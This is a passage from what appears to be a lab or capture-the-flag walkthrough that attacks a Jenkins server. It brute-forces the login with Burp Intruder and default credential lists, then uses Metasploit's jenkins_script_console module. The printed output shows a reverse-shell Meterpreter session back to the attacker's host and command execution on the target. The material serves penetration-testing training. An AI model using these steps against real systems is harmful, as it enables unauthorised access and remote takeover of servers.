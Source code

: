 ### Intruder
{: .no_toc}

- Clear all payload markers by pressing the "Clear §" button on the right
- Select the Attack type: Cluster Bomb to pair all usernames with all passwords
- Double click on the entered username text and click the "Add §" button and repeat for the password text
- Select the Payloads sub tab 
- Enter a few usernames one by one in the txt field next to the Add button and then press it .e.g jenkins, admin, administrator, Jenkins and passwords 
- Click on the dropdown list next to Payload set and select 2 and then repeat for passwords e.g. password, jenkins, Password, password1
- Then click on the orange "Start Attack" button in the top right corner
- Observe any inconsistencies in the table e.g. the response length
- Click on the Response tab below the table to view the responses
- Notice a discrepancy in response length when trying jenkins:jenkins and
- The session id returned in the response

> We got credentials

## Exploit [Metasploit / Manual]
  
### Metasploit

- Search for jenkins
- `use multi/http/jenkins_script_console`
- set rhosts, rport, lhosts, username & password
- `exploit`

```console
[*] Started reverse TCP handler on 10.0.2.9:4444 
[*] Checking access to the script console
[*] Logging in...
[*] Using CSRF token: 'cf6363d73fbaa2ddbb111e122555c2b88754ca869ff363611a695aa9244c3e3e' (Jenkins-Crumb style v2)
[*] 10.0.2.80:8080 - Sending command stager...
[*] Command Stager progress -   2.06% done (2048/99626 bytes)
...
[*] Command Stager progress - 100.00% done (99626/99626 bytes)
[*] Sending stage (175686 bytes) to 10.0.2.80
[*] Meterpreter session 2 opened (10.0.2.9:4444 -> 10.0.2.80:60581) at 2023-01-25 12:31:18 +0100

meterpreter > 
```

> We got a shell!!!

- get default target shell `shell`

```console
meterpreter > shell
Process 2480 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\Jenkins>whoami
whoami
butler\butler
```
